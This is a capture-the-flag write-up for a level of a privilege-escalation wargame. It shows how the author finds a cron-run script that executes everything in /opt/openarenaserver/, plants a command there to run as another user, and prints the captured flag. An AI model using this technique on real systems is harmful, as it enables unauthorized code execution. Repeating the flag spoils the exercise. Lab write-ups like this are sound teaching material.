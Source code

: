 ### Level05

There is nothing in the HOME of this level. So as for level00 I start by doing ` find / -user flag05 2>/dev/null`. I get the following result:
```bash
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
Then I start looking at the file with a cat
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We see that a script runs the entire contents of the folder and then deletes everything in `/opt/openarenaserver/`

We can't use vim to do a script there because we don't have the rights. So we have to use echo to write down our command and then redirect it to the folder

`echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag.sh`

During my tests I noticed that the script disappeared from the folder after a few minutes, so there is an active cron to run the main script. Once I don't see getflag.sh in the /opt/openarenaserver/ folder, I just have to do cat /tmp/getflag. I get the flag :

`viuaaale9huek52boumoomioc`

